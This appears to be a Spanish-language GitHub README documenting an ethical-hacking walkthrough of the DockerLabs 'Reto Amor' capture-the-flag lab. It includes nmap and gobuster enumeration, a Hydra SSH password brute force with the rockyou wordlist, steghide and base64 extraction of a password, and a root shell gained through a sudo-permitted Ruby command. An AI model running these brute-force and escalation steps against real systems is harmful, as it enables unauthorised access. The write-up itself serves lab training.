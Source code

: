 ### **Mayor DIEGO A. ESMERAL M.**


# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔧 Herramientas Empleadas

| HERRAMIENTA | DEFINICION | FUNCIONALIDAD | CASOS DE USO |
|------------|------------|---------------|--------------|
| **DOCKER** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **SCP** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **NETDISCOVER** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **NMAP** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **GOBUSTER** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **HYDRA** | Herramienta de cracking para servicios remotos que permite ataques de fuerza bruta con múltiples protocolos. | Automatiza intentos de autenticación contra servicios como SSH, FTP, HTTP, RDP, etc. | Test de contraseñas débiles, auditoría de accesos, ejercicios de Red Team. |
| **STEGHIDE** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **BASE64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

-------------------------------------------------------------------------------------------------------------------------------------------------------------------


## 🛠️ Desglose de Comandos Utilizados


# 1. Transferir carpeta

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

# 2. Instalar Docker (si aplica)

```bash
sudo apt install docker.io
```

# 3. Desplegar máquina

```bash
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```
![Despliegue](Despliegue.jpg)

# 4. Obtener interfaz de red

```bash
ip add
```

# 5. Escaneo de red en docker0

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

# 6. Escanear puertos abiertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```
# 7. Fuzzing web

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

# 8. Fuerza bruta SSH

![Fuerza bruta](Fuerza%20bruta%20SSH.png)

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# 9. Acceso por SSH

```bash
ssh carlota@172.17.0.2
```
# 10. Buscar imagen

```bash
cd /carlota/Desktop/fotos/vacaciones
```

# 11. Descargar imagen a Kali

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![Amor](AMOR.png)

# 12. Extraer contenido oculto

![Decodificacion](stghide.png)

```bash
steghide extract -sf imagen.jpg
```
# 13. Decodificar mensaje oculto

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

# 14. Escalada de privilegios

![Escalada de privilegios](escalar%20privilegios.png)

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 Diagrama de flujo

![Diagrama de Flujo](DiagrammeAMOR.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 💬 Resultado Final

Al finalizar el laboratorio se logra:

- Identificar servicios expuestos (22, 80).
- Obtener acceso SSH por fuerza bruta.
- Detectar archivo con datos esteganográficos.
- Decodificar contraseña y escalar privilegios a root.


